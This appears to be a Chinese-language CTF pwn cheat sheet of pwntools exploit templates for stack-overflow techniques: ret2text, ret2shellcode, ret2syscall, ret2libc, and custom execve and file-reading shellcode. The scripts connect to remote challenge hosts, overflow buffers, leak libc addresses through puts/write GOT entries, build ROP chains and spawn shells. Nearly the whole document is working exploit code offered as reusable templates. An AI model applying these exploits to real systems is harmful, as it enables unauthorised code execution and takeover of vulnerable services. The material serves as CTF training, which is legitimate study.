








```python
from pwn import * 
p = remote("challenge-5ed622b3b63a7e82.sandbox.ctfhub.com",28525)
#/bin/sh的地址
shell_addr = 0x04007B8
#生成0x70+8个垃圾数据覆盖参数和ebp，然后把/bin/sh的地址写入返回地址
payload = b'a' * (0x70+8) + p64(shell_addr)  
p.sendline(payload)
p.interactive()
```

## ret2shellcode



```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
#用pwntools生成shellcode
shellcode = asm(shellcraft.sh())
p = remote('219.219.61.234',49544)
p.recvline()
#把shellcode写入buf
p.sendline(shellcode)
p.recvline()
#计算偏移，栈溢出到buf
payload = b'a' * (0x30+8) + p64(0x233000)
p.sendline(payload)
p.interactive()
```

## ret2syscall









```python
from pwn import *
p = process('./rop')
pop_eax_ret = 0x080bb196
pop_ebx_ecx_edx_ret = 0x0806eb90
sh = 0x080be408
int_0x80 = 0x08049421
payload = b'a' * 112 + p32(pop_eax_ret) + p32(0xb) + p32(pop_ebx_ecx_edx_ret) + p32(0) + p32(0) + p32(sh) + p32(int_0x80)
p.sendline(payload)
p.interactive()
```

## ret2libc







```python
from pwn import *

elf = ELF('./pwn')
libc = ELF('./libc-2.31.so')
#p = process('./pwn')
p = remote('node4.buuoj.cn',25948)

#puts的plt表与got表地址
puts_plt = elf.plt['puts'] 
puts_got = elf.got['puts']

#libc中puts、system、/bin/sh的地址
libc_puts = libc.symbols['puts']
libc_system = libc.symbols['system']
libc_sh = libc.search(b'/bin/sh').__next__()

pop_ret_rdi = 0x400753
main = 0x400698
ret = 0x40050e

p.recvuntil(b'time?\n')
#64位的payload构成：栈溢出+pop rdi地址+泄露函数的got表地址+泄露函数的plt地址+ret指令（这里ret回main函数是为了跳回程序开头重新执行程序)
payload = b'a' * (0x20+8) + p64(pop_ret_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)

#直到7f出现的位置作为终点，开始往前读6个字节数据，然后再8字节对齐，不足8位补\x00
#\x7f是64位程序函数地址的默认开头，-6就是从倒数第6个字节开始取,在内存中是倒着放的
#32位u32(r.recv()[0:4])
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) #puts函数的真实地址
#偏移
base = puts_addr - libc_puts
#真实的system和/bin/sh地址
system_addr = base + libc_system
sh_addr = base + libc_sh

payload = b'a' * (0x20+8) + p64(ret) + p64(pop_ret_rdi) + p64(sh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()

#也可以不获取main函数地址，将exp分成两个py脚本，获取main函数地址并ret回去只是为了在一个脚本里执行两次程序
```

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = remote('47.93.143.29', '25923')
elf = ELF('./fd')

bss = 0x601090                   # 可写段，准备用作 ROP 参数
system = elf.plt['system']      # 获取 system@plt 的地址
pop_rdi_ret = 0x400933          # gadget：控制 rdi 的值
ret = 0x4005ae                  # ret 指令用于栈对齐（有些 libc 版本需要)


# shellcode
io.send(b'$0')

# ret2shellcode
payload = b'A'*0x20 + b'deadbeef' + p64(ret) + p64(pop_rdi_ret) + p64(bss) + p64(system)
io.send(payload)

# getFlag
io.send(b'cat /flag 1 > &2')

io.interactive()
```

## shellcode:

对于直接执行输入内容的，可以直接构造shellcode，输入即可，下面是两种构建shellcode的方法

```python
from pwn import * 

context(os='linux',arch='amd64',terminal=['tmux','sp','-h'])
p=process('本地程序文件处')
p=remote('远程交互网站的地址',端口号) 
shellcode1=shellcraft.sh()
payload1=asm(shellcode1)

shellcode2='''
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
xor esi,esi
xor edx,edx
push 0x3b
pop rax
syscall
'''

payload2=asm(shellcode2)
# gdb.attach(p)
p.send(payload1)
p.interactive()
```

```python

from pwn import *

elf = ELF("./pwn")
libc = ELF("./libc.so.6")
p = process([elf.path])
p = remote("0.0.0.0", 12345)

context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'

for i in range(4):
    p.sendlineafter(b"Defend? (y/N): ", b"N")

shellcode = asm("""
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
""")
p.send(shellcode)

# gdb.attach(p)
# pause()

p.interactive()
```

## ret2libc

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io=remote(“node5.anna.nssctf.cn”,25431)
elf=ELF('./pwn')
libc=ELF('libc6_2.27-0ubuntu3_amd64.so')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
gets_plt=elf.plt['gets']
gets_got=elf.got['gets']

pop_rdi=0x0000000000400c83

main_address = 0x0000000000400B28

io.sendlineafter(“Input your choice!\n”,b'1')

payload = b'a'*(0x50+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(0x00000000004009A0)

io.sendlineafter(“Input your Plaintext to be encrypted\n”,payload)
puts_real_address = u64(io.recvuntil(“\x7f”)[-6:].ljust(8,b'\x00'))

print(hex(puts_real_address))

real_libc=puts_real_address-libc.sym['puts']
print(hex(real_libc))
sys_address = real_libc+libc.sym['system']
#bin_sh_address = real_libc+libc.search('bin/sh\x00').next() # python2的写法

bin_sh_offset  = next(libc.search(b'/bin/sh\x00'))   # ↩️ generator ➜ int
bin_sh_address = real_libc + bin_sh_offset          # 绝对地址
payload1 = b'a'*(0x50+8) + p64(0x0000000000400C1C) +p64(pop_rdi) + p64(bin_sh_address) + p64(sys_address)

io.sendlineafter(“Input your Plaintext to be encrypted\n”,payload1)

io.interactive()

```


32位模板：

```python
from pwn import *

r = process("./pwn")
#r = remote()

libc = ELF("./libc____")
e = ELF("./pwn")

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
main_addr = e.symbols["main"]

offset = 
payload = offset*'a' + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)

#r.recvuntil()
r.sendline(payload)
write_addr = u32(r.recv(4))
print(hex(write_addr))

write_offset = libc.symbols["write"]
system_offset = libc.symbols["system"]
binsh_offset = libc.search("/bin/sh").next()

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

payload = offset*'a' + p32(system_addr) + p32(1) + p32(binsh_addr)

#r.recvuntil()
r.sendline(payload)
r.interactive()
```

64位模板：
```python
from pwn import *

r = remote("node4.buuoj.cn",25714)
#r = process("./pwn")

context(log_level = 'debug')
e = ELF("./pwn")
libc = ELF("./libc-2.23.so")

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
main_addr = e.symbols["main"]
rdi_addr = 0x00000000004006b3
rsi_r15_addr = 0x00000000004006b1

offset = 0x80 + 8
payload = offset*'a' + p64(rdi_addr) + p64(1) + p64(rsi_r15_addr) + p64(write_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)
r.recvuntil("Input:\n")
r.sendline(payload)

write_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
#write_addr = u64(r.recv(8))
print(hex(write_addr))

base_addr = write_addr - libc.symbols["write"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()

payload2 = offset*'a' + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(1)
r.recvuntil("Input:\n")
r.sendline(payload2)
r.interactive()
```